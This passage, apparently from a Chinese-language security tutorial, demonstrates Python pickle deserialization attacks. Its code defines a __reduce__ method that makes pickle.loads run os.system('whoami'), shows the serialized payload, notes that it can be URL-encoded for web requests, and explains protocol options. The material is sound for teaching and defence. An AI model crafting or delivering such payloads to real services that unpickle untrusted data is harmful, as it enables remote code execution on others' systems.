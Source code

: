 ```python
import os
import pickle


class Test1(object):
    def __reduce__(self):
        return os.system, ('whoami',)


testObj = Test1()
payload = pickle.dumps(testObj)
print(payload)

pickle.loads(payload)

```

![](http://image.xpshuai.cn/img/image-20220119104525612.png)

如果需要在web中请求传输，url编码后就可以发送了。







##### 指定protocol

`pickle.dumps(object)`在生成序列化数据时可以指定protocol参数，其取值包括：

- 当protocol=0时，序列化之后的数据流是可读的（ASCII码）
- 当protocol=3时，为python3的默认protocol值，序列化之后的数据流是hex码

```python
import os
import pickle


class Test1(object):
    def __reduce__(self):
        return os.system, ('whoami',)


testObj = Test1()
payload = pickle.dumps(testObj, protocol=0)
print(payload)
#
# pickle.loads(payload)

print(payload.decode())  # 将byte类型转化为string类型

```



